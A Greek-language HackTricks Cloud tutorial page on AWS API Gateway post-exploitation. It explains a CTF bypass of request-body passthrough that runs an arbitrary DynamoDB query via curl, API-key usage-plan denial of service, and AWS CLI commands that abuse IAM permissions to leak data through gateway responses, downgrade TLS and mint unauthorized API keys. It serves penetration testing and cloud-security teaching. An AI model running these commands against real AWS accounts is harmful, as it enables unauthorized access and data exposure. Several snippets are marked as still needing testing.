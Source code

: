 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στο** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) ή στο [**telegram group**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## API Gateway

Για περισσότερες πληροφορίες ελέγξτε:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Πρόσβαση σε μη εκτεθειμένα APIs

Μπορείτε να δημιουργήσετε ένα endpoint στο [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) με την υπηρεσία `com.amazonaws.us-east-1.execute-api`, να εκθέσετε το endpoint σε ένα δίκτυο όπου έχετε πρόσβαση (πιθανώς μέσω μιας μηχανής EC2) και να αναθέσετε μια ομάδα ασφαλείας που επιτρέπει όλες τις συνδέσεις.\
Στη συνέχεια, από τη μηχανή EC2 θα μπορείτε να αποκτήσετε πρόσβαση στο endpoint και επομένως να καλέσετε το gateway API που δεν είχε εκτεθεί προηγουμένως.

### Παράκαμψη Request body passthrough

Αυτή η τεχνική βρέθηκε σε [**αυτή την αναφορά CTF**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=en&_x_tr_pto=wapp).

Όπως αναφέρεται στην [**τεκμηρίωση AWS**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) στην ενότητα `PassthroughBehavior`, από προεπιλογή, η τιμή **`WHEN_NO_MATCH`**, κατά τον έλεγχο της κεφαλίδας **Content-Type** του αιτήματος, θα περάσει το αίτημα στο backend χωρίς μετασχηματισμό.

Επομένως, στο CTF το API Gateway είχε ένα πρότυπο ολοκλήρωσης που **εμπόδιζε τη σημαία να εξαχθεί** σε μια απάντηση όταν αποστέλλεται ένα αίτημα με `Content-Type: application/json`:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Ωστόσο, η αποστολή ενός αιτήματος με **`Content-type: text/json`** θα εμπόδιζε αυτό το φίλτρο.

Τέλος, καθώς το API Gateway επέτρεπε μόνο `Get` και `Options`, ήταν δυνατό να σταλεί ένα αυθαίρετο ερώτημα dynamoDB χωρίς κανέναν περιορισμό στέλνοντας ένα POST αίτημα με το ερώτημα στο σώμα και χρησιμοποιώντας την κεφαλίδα `X-HTTP-Method-Override: GET`:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Usage Plans DoS

Στην ενότητα **Enumeration** μπορείτε να δείτε πώς να **αποκτήσετε το σχέδιο χρήσης** των κλειδιών. Εάν έχετε το κλειδί και είναι **περιορισμένο** σε X χρήσεις **ανά μήνα**, μπορείτε **απλώς να το χρησιμοποιήσετε και να προκαλέσετε DoS**.

Το **API Key** πρέπει απλώς να **συμπεριληφθεί** μέσα σε ένα **HTTP header** που ονομάζεται **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Ένας επιτιθέμενος με τις άδειες `apigateway:UpdateGatewayResponse` και `apigateway:CreateDeployment` μπορεί να **τροποποιήσει μια υπάρχουσα Gateway Response για να συμπεριλάβει προσαρμοσμένα headers ή πρότυπα απάντησης που διαρρέουν ευαίσθητες πληροφορίες ή εκτελούν κακόβουλα σενάρια**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Πιθανές Επιπτώσεις**: Διαρροή ευαίσθητων πληροφοριών, εκτέλεση κακόβουλων σεναρίων ή μη εξουσιοδοτημένη πρόσβαση σε πόρους API.

{% hint style="info" %}
Απαιτείται δοκιμή
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Ένας επιτιθέμενος με τις άδειες `apigateway:UpdateStage` και `apigateway:CreateDeployment` μπορεί **να τροποποιήσει μια υπάρχουσα σκηνή API Gateway για να ανακατευθύνει την κίνηση σε μια διαφορετική σκηνή ή να αλλάξει τις ρυθμίσεις caching για να αποκτήσει μη εξουσιοδοτημένη πρόσβαση σε αποθηκευμένα δεδομένα**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Πιθανές Επιπτώσεις**: Μη εξουσιοδοτημένη πρόσβαση σε αποθηκευμένα δεδομένα, διακοπή ή παρεμβολή στην κυκλοφορία API.

{% hint style="info" %}
Απαιτείται δοκιμή
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Ένας επιτιθέμενος με τις άδειες `apigateway:PutMethodResponse` και `apigateway:CreateDeployment` μπορεί **να τροποποιήσει την απάντηση μεθόδου μιας υπάρχουσας μεθόδου API Gateway REST API για να συμπεριλάβει προσαρμοσμένα headers ή πρότυπα απάντησης που διαρρέουν ευαίσθητες πληροφορίες ή εκτελούν κακόβουλα σενάρια**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Πιθανές Επιπτώσεις**: Διαρροή ευαίσθητων πληροφοριών, εκτέλεση κακόβουλων σεναρίων ή μη εξουσιοδοτημένη πρόσβαση σε πόρους API.

{% hint style="info" %}
Απαιτείται δοκιμή
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Ένας επιτιθέμενος με τις άδειες `apigateway:UpdateRestApi` και `apigateway:CreateDeployment` μπορεί **να τροποποιήσει τις ρυθμίσεις του API Gateway REST API για να απενεργοποιήσει την καταγραφή ή να αλλάξει την ελάχιστη έκδοση TLS, ενδεχομένως αποδυναμώνοντας την ασφάλεια του API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Πιθανές Επιπτώσεις**: Αδυνάτισμα της ασφάλειας του API, επιτρέποντας ενδεχομένως μη εξουσιοδοτημένη πρόσβαση ή έκθεση ευαίσθητων πληροφοριών.

{% hint style="info" %}
Απαιτείται δοκιμή
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Ένας επιτιθέμενος με δικαιώματα `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, και `apigateway:CreateUsagePlanKey` μπορεί **να δημιουργήσει νέα API keys, να τα συσχετίσει με σχέδια χρήσης και στη συνέχεια να χρησιμοποιήσει αυτά τα κλειδιά για μη εξουσιοδοτημένη πρόσβαση σε APIs**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Πιθανές Επιπτώσεις**: Μη εξουσιοδοτημένη πρόσβαση σε πόρους API, παράκαμψη ελέγχων ασφαλείας.

{% hint style="info" %}
Απαιτείται δοκιμή
{% endhint %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
